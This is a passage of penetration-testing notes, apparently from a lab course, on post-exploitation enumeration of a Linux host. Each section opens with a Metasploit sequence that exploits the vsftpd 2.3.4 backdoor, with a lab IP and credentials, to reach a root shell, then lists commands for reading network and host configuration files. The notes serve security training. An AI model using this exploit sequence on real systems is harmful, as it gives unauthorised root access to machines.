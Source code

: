 #### Network information

What are we looking for?

* Current IP address & network adapter
* Internal networks
* TCP/UDP services running and their respective ports
* Other hosts on the network

```bash
msf6> setg rhosts 192.206.83.2
msf6> use exploit/unix/ftp/vsftpd_234_backdoor
msf6> set username administrator
msf6> set password tinkerbell
msf6> run
# CTRL+Z
msf6> sessions -u 1
msf6> sessions 2
meterpreter> shell
/bin/bash -i
root@victim> id  # root
```

| Command                | Description               |
| ---------------------- | ------------------------- |
| `ifconfig` `ip a s`    | Network interfaces.       |
| `netstat`              | Current TCP/UDP services. |
| `route`                | Route table.              |
| `cat /etc/networks`    | Networks file.            |
| `cat /etc/hostname`    | Hostname file.            |
| `cat /etc/hosts`       | Local DNS file.           |
| `cat /etc/resolv.conf` | The default DNS.          |
| `arp`                  | The ARP table.            |

#### Processes & cron jobs

After gaining initial access to a target system, it is always important to learn more about the system like, what processes, services and sheduled tasks are currently running.

What are we looking for?

* Running services
* Cron jobs

```bash
msf6> setg rhosts 192.206.83.2
msf6> use exploit/unix/ftp/vsftpd_234_backdoor
msf6> set username administrator
msf6> set password tinkerbell
msf6> run
# CTRL+Z
msf6> sessions -u 1
msf6> sessions 2
meterpreter> shell
```
